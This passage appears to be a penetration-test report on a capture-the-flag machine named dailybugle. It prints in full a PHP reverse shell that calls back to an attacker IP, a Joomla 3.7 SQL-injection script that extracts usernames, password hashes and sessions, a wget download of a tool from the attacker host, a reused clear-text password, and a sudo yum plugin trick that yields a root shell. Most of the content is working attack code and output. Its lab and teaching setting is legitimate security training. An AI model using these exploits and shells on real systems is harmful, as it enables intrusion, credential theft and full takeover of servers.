// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.1.171';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```



We start a netcat with port 1337 
```
nc -lvnp 1337
```

We browse to the shell:
```
http://10.10.204.70/templates/beez3/shell.php
```

We get a reverse shell:
```
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.9.1.171] from (UNKNOWN) [10.10.204.70] 52384
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 21:36:22 up  3:01,  0 users,  load average: 0.00, 0.02, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 

```

**Info about where the initial shell was acquired from**

After getting administrator credentials through an SQL injection we were able to get an initial shell by uploading and executing a reverse PHP page added through the administrator panel template section.

**Vulnerability Explanation:**

Joomla! Core 3.7 is prone to an SQL injection vulnerability because it fails to sufficiently sanitize user-supplied data before using it in an SQL query. 


**Vulnerability Fix:**
Update Joomla to version 3.8 or higher

**Severity:**
Critical

**Proof of Concept Code Here:**
```python
#!/usr/bin/python
from __future__ import print_function
import requests
import sys
import re
import argparse
import os
import random
import time
import binascii


def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
                print(" [!] Cannot find CSRF token")
                return None
        return match.group(1)


def parse_options():
        parser = argparse.ArgumentParser(description='Jooma Exploit')
        parser.add_argument('url', help='Base URL for Joomla site')
        return parser.parse_args()


def build_sqli(colname, morequery):
        return "(SELECT " + colname + " " + morequery + ")"

def joomla_370_sqli_extract(options, sess, token, colname, morequery):
        sqli = build_sqli("LENGTH("+colname+")", morequery)
        length = joomla_370_sqli(options, sess, token, sqli)
        if not length:
                return None
        length = int(length)
        maxbytes = 30
        offset = 0
        result = ''
        while length > offset:
                sqli = build_sqli("HEX(MID(%s,%d,%d))" % (colname, offset + 1, 16), morequery)
                value = joomla_370_sqli(options, sess, token, sqli)
                if not value:
                        print(" [!] Failed to retrieve string for query:", sqli)
                        return None
                value = binascii.unhexlify(value)
                result += value
                offset += len(value)
        return result


def joomla_370_sqli(options, sess, token, sqli):
        sqli_full = "UpdateXML(2, concat(0x3a," + sqli + ", 0x3a), 1)"
        data = {
                'option': 'com_fields',
                'view': 'fields',
                'layout': 'modal',
                'list[fullordering]': sqli_full,
                token: '1',
        }
        resp = sess.get(options.url + "/index.php?option=com_fields&view=fields&layout=modal", params=data, allow_redirects=False)
        match = re.search(r'XPATH syntax error:\s*&#039;([^$\n]+)\s*&#039;\s*</bl', resp.text, re.S)
        if match:
                match = match.group(1).strip()
                if match[0] != ':' and match[-1] != ':':
                        return None
                return match[1:-1]


def extract_joomla_tables(options, sess, token):
        tables = list()
        first = False
        offset = 0
        while True:
                result = joomla_370_sqli_extract(options, sess, token, "TABLE_NAME", "FROM information_schema.tables WHERE TABLE_NAME LIKE 0x257573657273 LIMIT " + str(offset) + ",1" )
                if result is None:
                        if first:
                                print("[!] Failed to retrieve first table name!")
                                return False
                        break
                tables.append(result)
                print("  -  Found table:", result)
                first = False
                offset += 1
        return tables


def extract_joomla_users(options, sess, token, table_name):
        users = list()
        offset = 0
        first = False
        print("  -  Extracting users from", table_name)
        while True:
                result = joomla_370_sqli_extract(options, sess, token, "CONCAT(id,0x7c,name,0x7c,username,0x7c,email,0x7c,password,0x7c,otpKey,0x7c,otep)", "FROM %s ORDER BY registerDate ASC LIMIT %d,1" % (table_name, offset) )       
                if result is None:
                        if first:
                                print("[!] Failed to retrieve user from table!")
                                return False
                        break
                result = result.split('|')
                print(" [$] Found user",result)
                first = False
                offset += 1
                users.append(result)
        return users


def extract_joomla_sessions(options, sess, token, table_name):
        sessions = list()
        offset = 0
        first = False
        print("  -  Extracting sessions from", table_name)
        while True:
                result = joomla_370_sqli_extract(options, sess, token, "CONCAT(userid,0x7c,session_id,0x7c,username)", "FROM %s WHERE guest = 0 LIMIT %d,1" % (table_name, offset) )
                if result is None:
                        if first:
                                print("[!] Failed to retrieve session from table!")
                                return False
                        break
                result = result.split('|')
                print(" [$] Found session", result)
                first = False
                offset += 1
                sessions.append(result)
        return sessions


def pwn_joomla_again(options):
        sess = requests.Session()

        print(" [-] Fetching CSRF token")
        resp = sess.get(options.url + "/index.php/component/users/?view=login") 
        token = extract_token(resp)
        if not token:
                return False

        # Verify that we can perform SQLi
        print(" [-] Testing SQLi")
        result = joomla_370_sqli(options, sess, token, "128+127")
        if result != "255":
                print(" [!] Could not find SQLi output!")
                return False

        tables = extract_joomla_tables(options, sess, token)

        for table_name in tables:
                table_prefix = table_name[:-5]
                extract_joomla_users(options, sess, token, table_name)
                extract_joomla_sessions(options, sess, token, table_prefix + 'session')

        return True

def print_logo():
        clear = "\x1b[0m"
        colors = [31, 32, 33, 34, 35, 36]

        logo = """                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/\'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 
"""
        for line in logo.split("\n"):
                sys.stdout.write("\x1b[1;%dm%s%s\n" % (random.choice(colors), line, clear))
                #time.sleep(0.05)

def main():
        options = parse_options()
        options.url = options.url.rstrip('/')
        print_logo()
        pwn_joomla_again(options)

if __name__ == "__main__":
    main()
```


#### Privilege Escalation of user

We find the following usernames doing enumeration:
We host `linpeas.sh` and download it using python to host a web server

```
└─$ sudo python3 -m http.server 80
[sudo] password for ttl0:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On the victim shell:
```
sh-4.2$ cd /tmp
cd /tmp
sh-4.2$ wget 10.9.1.171/linpeas.sh 
wget 10.9.1.171/linpeas.sh
--2021-02-14 11:51:29--  http://10.9.1.171/linpeas.sh
Connecting to 10.9.1.171:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 325084 (317K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 15%  257K 1s
    50K .......... .......... .......... .......... .......... 31%  522K 1s
   100K .......... .......... .......... .......... .......... 47% 11.2M 0s
   150K .......... .......... .......... .......... .......... 62%  329K 0s
   200K .......... .......... .......... .......... .......... 78% 87.7M 0s
   250K .......... .......... .......... .......... .......... 94% 59.5K 0s
   300K .......... .......                                    100%  180K=1.4s

2021-02-14 11:51:31 (229 KB/s) - 'linpeas.sh' saved [325084/325084]
sh-4.2$ chmod +x linpeas.sh
chmod +x linpeas.sh
sh-4.2$ ./linpeas.sh
```

We find a clear text password in the following config file:
```
/var/www/html/configuration.php:        public $password = 'nv5uz9r3ZEDzVjNu';
```

We also find the following users with console:
```
[+] Users with console
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

We try and pivot using user jjameson:

```
sh-4.2$ su jjameson     
su jjameson
Password: nv5uz9r3ZEDzVjNu
whoami
jjameson
```

**Vulnerability Exploited:**
Misconfiguration and password reuse.

**Vulnerability Explanation:**
A configuration password was left in clear text in the PHP configuration file. We re-used this password for shell credentials to user jjameson.

**Vulnerability Fix:**
Passwords should always be sanitized out of the configurations files. Users should always use different passwords for different accounts and services instead of re-using the same password.

**Severity:**
Critical

**Exploit Code:**
```
cat /var/www/html/configuration.php
```

**Proof Screenshot Here:**



**Proof.txt Contents:**

```
hostname && whoami && cat /home/jjameson/user.txt && ip a
dailybugle
jjameson
27a260fe3cba712cfdedb1c86d80442e
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:08:b2:44:ea:8d brd ff:ff:ff:ff:ff:ff
    inet 10.10.187.235/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2187sec preferred_lft 2187sec
    inet6 fe80::8:b2ff:fe44:ea8d/64 scope link 
       valid_lft forever preferred_lft forever

```

#### Privilege Escalation of root
We check for the sudo permissions of jjameson
```
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum

```
Yum is allowed to run as sudo. We find on `https://gtfobins.github.io/` that if yum is allowed to run as superuser that it does not drop elevated privileges and we can spawn an interactive root shell by loading a custom plugin.

We spawn an interactive root shell by loading a custom plugin:

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF
cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF
cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
```

We checked our permissions
```
whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
```

**Vulnerability Exploited:**
Elevated privileges binary exploitation.

**Vulnerability Explanation:**
If a binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access

**Vulnerability Fix:**
Do not allow users to run binaries as sudo.

**Severity:**
Critical

**Exploit Code:**
```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF
cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF
cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
```

**Proof Screenshot Here:**



**Proof.txt Contents:**

```
hostname && whoami && cat /root/root.txt && ip a
dailybugle
root
eec3d53292b1821868266858d7fa6f79
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:08:b2:44:ea:8d brd ff:ff:ff:ff:ff:ff
    inet 10.10.187.235/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3225sec preferred_lft 3225sec
    inet6 fe80::8:b2ff:fe44:ea8d/64 scope link 
       valid_lft forever preferred_lft forever


```